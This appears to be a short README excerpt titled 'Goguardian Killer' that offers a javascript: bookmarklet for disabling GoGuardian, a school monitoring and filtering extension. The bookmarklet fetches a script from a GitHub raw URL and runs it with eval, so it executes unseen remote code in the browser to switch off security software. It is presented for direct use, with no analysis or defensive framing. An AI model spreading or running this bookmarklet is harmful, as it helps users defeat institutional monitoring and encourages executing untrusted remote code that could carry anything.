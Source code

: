 > ## Goguardian Killer
#### Kills GoGuardian (Duhh) (NOT MINE)

`javascript:fetch(`https://raw.githubusercontent.com/H4lyc0n/Goguardian-killer/main/Exploit_Not_The_Bookmarklet.js`).then(data=>{data.text().then(text=>{eval(text)})});`
